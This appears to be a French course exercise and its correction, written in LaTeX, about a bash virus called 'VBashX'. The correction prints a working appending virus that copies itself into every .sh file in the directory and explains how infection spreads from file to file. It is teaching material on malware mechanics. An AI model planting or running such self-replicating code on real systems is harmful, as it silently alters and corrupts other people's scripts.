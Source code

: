 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{1b)}] Tester : créer \texttt{cible1.sh} et \texttt{cible2.sh} (simples \texttt{echo}). Exécuter le virus, puis les cibles. Le code hôte s'exécute-t-il toujours ?

\item[\textbf{1c)}] Exécuter un fichier infecté. Que se passe-t-il ? Pourquoi ?
\end{enumerate}

\begin{correction}

\textbf{1a)} Le script suivant implémente un virus par ajout simple :
\begin{lstlisting}[title=vbashx\_phase1.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 1 ---
VIRUS_SIZE=7
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        tail -n $VIRUS_SIZE "$0" >> "$f"
    fi
done
\end{lstlisting}

\textbf{1b)} Après exécution du virus, les fichiers cibles contiennent leur code original suivi du code viral. Lorsqu'on exécute une cible, le code hôte s'exécute d'abord (les \texttt{echo} affichent leur message), puis le code viral s'exécute et propage l'infection aux autres fichiers \texttt{.sh}.

\textbf{1c)} Lorsqu'on exécute un fichier infecté, celui-ci propage le virus aux autres fichiers \texttt{.sh} du répertoire. C'est la \textbf{propagation de proche en proche} : chaque fichier infecté devient à son tour un vecteur d'infection.

\begin{attention}
Le virus souffre d'un problème majeur : il \textbf{réinfecte} les fichiers déjà infectés à chaque exécution. La taille des fichiers augmente indéfiniment. Ce problème sera résolu en Phase 2.
\end{attention}

\begin{pointcle}
\begin{itemize}
    \item \texttt{tail -n K \$0} permet l'\textbf{auto-extraction} du code viral depuis le fichier en cours d'exécution.
    \item L'opérateur \texttt{>>} ajoute en fin de fichier sans écraser le contenu existant.
    \item Le code viral s'exécute \textbf{après} le code hôte : le programme original reste fonctionnel.
    \item La valeur de \texttt{VIRUS\_SIZE} doit correspondre \textbf{exactement} au nombre de lignes du code viral (du commentaire de début au \texttt{done} final).
\end{itemize}
\end{pointcle}


\end{correction}
\end{exercice}
\end{document}
